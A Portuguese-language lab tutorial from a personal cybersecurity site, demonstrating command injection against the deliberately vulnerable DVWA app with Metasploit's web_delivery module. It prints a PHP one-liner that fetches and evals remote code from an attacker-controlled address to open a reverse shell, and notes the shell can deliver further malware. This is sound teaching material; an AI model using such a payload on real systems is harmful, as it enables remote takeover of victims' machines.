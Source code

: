 ```yaml
---
layout: default
title: Command-Injection com Metasploit
permalink: /artigos/07.md/
---
```

  
  
<p align="center">
 <a href="https://carineconstantino.github.io/cybersecurity/">Página Inicial</a>
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/">Próximo</a>  
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/artigos/07.md">Anterior</a>   
</p>

## Command-Injection com Metasploit

O ataque **Command-Injection** permite a execução de comandos remotamente no sistema operacional a partir de uma aplicação que não faz a validação dos dados de entrada. Quando o ataque é bem sucedido, o comando é executado com o mesmo nível de privilégios da aplicação, ou seja, se a aplicação é executada no sistema operacional com privilégios administrativos, o comando também será executado com esse nível de acesso. 

## Executando o Command-Injection

No exemplo, eu continuo utilizando a aplicação vulnerável [DVWA](http://www.dvwa.co.uk) e a máquina Kali virtualizada com VirtualBox. No metasploit, o módulo _exploit/multi/script/web_delivery_ oferece o exploit do [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md). Em um ataque de **command-injection**, o [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md) é utilizado para abrir o backdoor com o sistema atacado.

A aplicação [DVWA](http://www.dvwa.co.uk) é construida em PHP e essa será nossa opção na escolha do _targets_ 

![targets](https://carineconstantino.github.io/cybersecurity/artigos/imagens/targets.png)

O módulo do **shell-reverso** é para PHP e a porta local de conexão é padrão 4444. Quando o **command-injection** for executado, a máquina Kali receberá conexões nessa porta e poderá enviar um outro payload, por exemplo, um arquivo de vírus para infectar a máquina. 

![web_delivery_module](https://carineconstantino.github.io/cybersecurity/artigos/imagens/web_delivery_module.png)

Ao executar o módulo, o payload que será enviado através do command-injection será criado. No exemplo, o seguinte payload foi criado: 

```php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.0.26:8080/0piSzsUEIk5'));"```

Na aplicação DVWA, adicionamos a linha junto com uma ação legítima disponível no site. 

![dvwa_command_injection](https://carineconstantino.github.io/cybersecurity/artigos/imagens/dvwa_command_injection.png)



